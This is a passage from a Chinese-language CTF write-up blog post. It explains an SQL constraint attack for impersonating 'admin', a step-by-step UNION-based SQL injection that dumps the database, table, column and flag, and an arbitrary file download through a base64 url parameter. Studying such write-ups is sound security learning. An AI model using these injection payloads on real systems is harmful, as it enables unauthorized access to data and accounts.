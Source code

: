 <div class="wp-block-image">
  <figure class="aligncenter size-large"><img loading="lazy" width="144" height="34" src="https://cdn.jsdelivr.net/gh/Hannibal0x/img/2021/02/图片-173.png" alt="" class="wp-image-1256" /></figure>
</div>

可以得到管理员的用户名为admin，这里需要用到sql约束攻击，数据库建表时约束了字段的长度，例如username如果约束长度是2的话，输入超长的长度是只会保留约束长度的。构造一个用户名为`admin` 且密码符合规范的用户，数据库只会存入admin，相当于存入了一个与admin的同名用户，而密码则是我们注册时所设定的密码。

<div class="wp-block-image">
  <figure class="aligncenter size-large is-resized"><img loading="lazy" src="https://cdn.jsdelivr.net/gh/Hannibal0x/img/2021/02/图片-174.png" alt="" class="wp-image-1259" width="480" height="33" /></figure>
</div>

## 0x03 成绩单

一看就知道是sql注入，`1' order by 4#`时能够正常显示，`1' order by 5#`时无法显示，得出列数为4，下面猜解数据库名，输入`-1' union select 1,database(),3,4#`，成功得到web1。<figure class="wp-block-image size-large is-resized">

<img loading="lazy" src="https://cdn.jsdelivr.net/gh/Hannibal0x/img/2021/02/图片-175.png" alt="" class="wp-image-1265" width="710" height="104" /> </figure> 

再来猜解表名，输入`-1' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema=database()),3,4#`，得到fl4g。

<div class="wp-block-image">
  <figure class="aligncenter size-large is-resized"><img loading="lazy" src="https://cdn.jsdelivr.net/gh/Hannibal0x/img/2021/02/图片-176.png" alt="" class="wp-image-1271" width="279" height="75" /></figure>
</div>

根据fl4g表来查询列名，输入`-1' union select 1,(select group_concat(column_name) from information_schema.columns where table_name='fl4g'),3,4#`。

<div class="wp-block-image">
  <figure class="aligncenter size-large is-resized"><img loading="lazy" src="https://cdn.jsdelivr.net/gh/Hannibal0x/img/2021/02/图片-177.png" alt="" class="wp-image-1275" width="288" height="86" /></figure>
</div>

取出flag的值，输入-`1' union select 1,(select flag from fl4g),3,4#`

<div class="wp-block-image">
  <figure class="aligncenter size-large"><img loading="lazy" width="841" height="101" src="https://cdn.jsdelivr.net/gh/Hannibal0x/img/2021/02/图片-178.png" alt="" class="wp-image-1280" /></figure>
</div>

## 0x04 这里有几首歌

先把两首歌下载到本地进行音频分析，没有什么异常。

<div class="wp-block-image">
  <figure class="aligncenter size-large is-resized"><img loading="lazy" src="https://cdn.jsdelivr.net/gh/Hannibal0x/img/2021/02/图片-179.png" alt="" class="wp-image-1283" width="360" height="129" /></figure>
</div>

分析源代码发现下载链接为`download.php?url=目标文件的base64编码`，可以利用此漏洞进行任意文件下载。

<div class="wp-block-image">
  <figure class="aligncenter size-large"><img loading="lazy" width="801" height="74" src="https://cdn.jsdelivr.net/gh/Hannibal0x/img/2021/02/图片-181.png" alt="" class="wp-image-1287" /></figure>
</div>
